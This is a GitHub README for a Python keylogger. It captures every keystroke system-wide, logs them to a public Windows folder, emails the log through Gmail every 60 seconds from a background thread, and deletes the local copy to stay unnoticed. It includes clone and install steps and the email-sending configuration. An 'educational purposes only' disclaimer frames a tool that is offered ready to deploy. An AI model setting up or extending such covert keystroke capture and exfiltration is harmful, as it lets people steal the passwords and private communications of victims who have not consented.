 # Keylogger

A simple yet effective keylogger written in Python. This tool is designed for educational purposes to demonstrate concepts in cybersecurity and Python programming. It captures keystrokes, logs them to a file, and periodically emails the logs to a specified address. The script operates discreetly in the background using threading.

## Features

-   **Keystroke Logging:** Captures all keyboard events and saves them with timestamps to a local file.
-   **Background Operation:** Runs as a background process using Python's `threading` module, allowing it to log keystrokes without an active terminal window.
-   **Automated Email Reports:** Periodically sends the captured logs as an email attachment using a secure SMTP connection with Gmail.
-   **Log Management:** Automatically deletes the log file after it has been successfully emailed to maintain cleanliness and reduce its on-disk footprint.

## How It Works

1.  **Listener:** The script uses the `keyboard` library to set up a global listener that captures every key press.
2.  **Logging:** Each key press event is timestamped and appended to a log file located at `C:\Users\Public\logfile.txt`.
3.  **Background Scheduler:** A separate thread is started that runs a scheduler function.
4.  **Emailing:** This scheduler function wakes up at a defined interval (every 60 seconds by default), reads the log file, attaches it to an email, and sends it to the configured recipient.
5.  **Cleanup:** After the email is sent successfully, the local log file is deleted.
6.  **Persistence:** The main thread uses `keyboard.wait()` to run indefinitely, ensuring the key listener remains active.

## Getting Started

Follow these instructions to get a copy of the project up and running on your local machine.

### Prerequisites

-   Python 3.x
-   pip (Python package installer)

### Installation

1.  Clone the repository to your local machine:
    ```sh
    git clone https://github.com/lakshya-004/Keylogger.git
    ```
2.  Navigate to the project directory:
    ```sh
    cd Keylogger
    ```
3.  Install the required Python package:
    ```sh
    pip install keyboard
    ```

## Usage

### Configuration

Before running the script, you must configure your email settings within `Main.py`.

1.  Open `Main.py` in a text editor.
2.  Locate the `schedule_email` function.
3.  Replace the placeholder values for `sender_email`, `app_password`, and `recipient_email`.

    ```python
    # Inside the schedule_email function
    send_email_with_attachment(
        sender_email="your_email@gmail.com",
        app_password="your_gmail_app_password",
        recipient_email="recipient_email@example.com",
        subject="Keylogger Log File",
        body="Attached is the keylogger log file.",
        file_path=log_file_path
    )
    ```

    > **Important:** For `app_password`, you must generate a **Google App Password** for your Gmail account. Your regular password will not work if you have 2-Factor Authentication enabled.

4.  **(Optional)** You can change the email sending interval by modifying the `time.sleep(60)` value (in seconds) within the `schedule_email` function.

### Running the Script

Execute the script from your terminal. Administrator privileges may be required for the keylogger to capture keystrokes system-wide.

```sh
python Main.py
```

The script will now run in the background. To stop it, you must terminate the process (e.g., press `Ctrl+C` in the terminal or end the process through your system's Task Manager).

## Disclaimer

This project is intended for **educational purposes only**. The misuse of this software is strongly discouraged. Using this keylogger on any computer without the owner's explicit permission is illegal and unethical. The author of this repository is not responsible for any damage or legal issues caused by the misuse of this tool. Use it responsibly and at your own risk.
